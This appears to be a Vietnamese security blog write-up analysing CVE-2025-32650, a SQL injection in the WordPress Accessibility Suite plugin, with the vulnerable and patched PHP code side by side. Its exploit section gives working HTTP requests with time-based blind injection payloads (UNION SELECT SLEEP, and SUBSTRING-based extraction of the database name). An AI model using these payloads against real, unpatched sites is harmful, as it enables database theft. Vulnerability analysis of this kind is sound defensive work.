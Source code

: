 # CVE-2025-32650 Analysis & POC


<!--more-->

Lỗ hổng xảy ra trên plugin **Accessibility Suite** của WordPress trước phiên bản **4.19**. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.

* **CVE ID**: [CVE-2025-32650](https://www.cve.org/CVERecord?id=CVE-2025-32650)
* **Product**: [WordPress Accessibility Suite Plugin](https://wordpress.org/plugins/online-accessibility/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 4.18
* **CVSS severity**: High (8.5)
* **Required Privilege**: Subscriber

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Accessibility Suite**:  v4.18(vul) và v4.19(fix)
* **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

## Analysis

Ứng dụng chưa thực hiện ép kiểu cho **input** và mặc dù có sử dụng `prepare()` để chống SQLi, nhưng do triển khai không đúng nên lỗ hổng SQLi vẫn tồn tại.

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **includes/classes/Helper.php**

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $list = json_decode(
        $wpdb->get_results($wpdb->prepare("SELECT list FROM  $table_name WHERE scan_id = $scan_id"))[0]->list // phpcs:ignore
    );
}
```

Bản vá đã truyền `$scan_id` như tham số vào câu query. SQL injection được phòng ngừa vì biến không được nối trực tiếp vào query nữa.

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $scan_id = absint($scan_id); // Ensure scan_id is a positive integer
    
    if (!$scan_id) {
        return ["status" => "failed", "msg" => "Invalid scan ID"];
    }
    
    // Get list using properly prepared query
    $query = $wpdb->prepare(
        "SELECT list FROM %i WHERE scan_id = %d",
        $table_name,
        $scan_id
    );
    
    $result = $wpdb->get_results($query);
}
```

{{< figure src="patch_diff.png" caption="Patch diff" alt="patch diff" >}}

### How it work?

Lỗ hổng nằm trong hàm tĩnh `save_false_positive` của class `Helper` thuộc file **includes/classes/Helper.php**. Để xác định nơi nó được gọi, ta tìm kiếm với tự khóa `save_false_positive` trong thư mục chứa plugin.

{{< figure src="search_1.png" caption="Search save_false_positive" alt="search save_false_positive" >}}

👉 `save_false_positive` được `callback` của action hook `wp_ajax_ONLINE_ADAv4/save_false_positive` gọi.

Khi **POST** request được gửi đến `/wp-admin/admin-ajax.php` với `action`=`ONLINE_ADAv4/save_false_positive` callback được gọi.
Trong request cần 2 **POST** param `issue_id` và `scan_id`. Nếu không, ứng dụng sẽ trả về:

```json
{"status":"failed","msg":"Did not receive the scan ID or the issue ID"}
```

`save_false_positive` được gọi với đối số `issue_id` và `scan_id`. Các đối số này sẽ bị escape bởi [**magic quotes**](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress vì lấy trực tiếp từ **POST** request.

Ứng dụng check xem người dùng có quyền truy cập vào trang admin không. Nếu không, trả về chuỗi rỗng.

```php
if(! is_admin()) {
    return '';
}
```

Sau đó các đối số trực tiếp truyền vào câu query chứa lỗ hổng SQLi rồi thực thi.

## Exploit

### Detect SQLi

Gửi **POST request** chứa payload SQLi. Vì chỉ cần là user có quyền truy cập vào trang admin, nên ta tạo user với `role:subcriber` có **privilege thấp nhất**.

Trong WordPress, user có role cao hơn sẽ kế thừa cả **privilege** role thấp hơn. Nên chỉ cần user `subcriber` gửi payload thành công thì tất cả user còn lại đều có thể. Đúng với mô tả của CVE

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT SLEEP(5)
```

Khi đó câu query sẽ trở thành

```sql
SELECT list FROM  wp_oada_false_positives WHERE scan_id = 1 UNION SELECT SLEEP(5)
```

{{< figure src="time_response.png" caption="Time response with SQLi payload" alt="time response with SQLi payload" >}}

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Các technique có thể sử dụng trong trường hợp table rỗng**:

* **UNION**: vì nó không phụ thuộc vào dữ liệu bảng của câu query trước đó, nhưng cần phải tìm được số cột tương ứng với truy vấn trước đó.
* **Subquery**:

  * **Subquery trong mệnh đề WHERE**: MySQL có thể tối ưu hóa và bỏ qua subquery nếu kết quả có thể xác định sớm. Nếu bảng không có dữ liệu, kết quả cuối cùng sẽ là tập rỗng, MySQL không cần thực thi `SLEEP()`.
  * **Subquery trong mệnh đề FROM**: Truy vấn con được coi là bảng tạm thời. MySQL phải thực thi truy vấn con này đầu tiên để tạo bảng tạm thời, sau đó mới thực thi truy vấn chính.

{{< figure src="https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png" caption="SQL Execution Order Diagram" alt="SQL Execution Order Diagram" >}}

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì như phân tích [ở trên](#how-it-work), `scan_id` sẽ bị escape.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

## Conclusion

Lỗ hổng **CVE-2025-32650** trong plugin WordPress **Accessibility Suite** trước phiên bản **4.19** xuất phát từ việc triển khai không đúng hàm `$wpdb->prepare()` dẫn đến lỗ hổng SQL Injection.

Bản vá chính thức đã triển khai đúng `$wpdb->prepare`, giúp đảm bảo dữ liệu đầu vào được kiểm soát và an toàn hơn.

**Key takeaways**:

* Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
* Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[ WordPress Accessibility Suite Plugin <= 4.18 is vulnerable to SQL Injection ](https://wordpress.org/plugins/online-accessibility/)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-09-26-cve-2025-32650/  

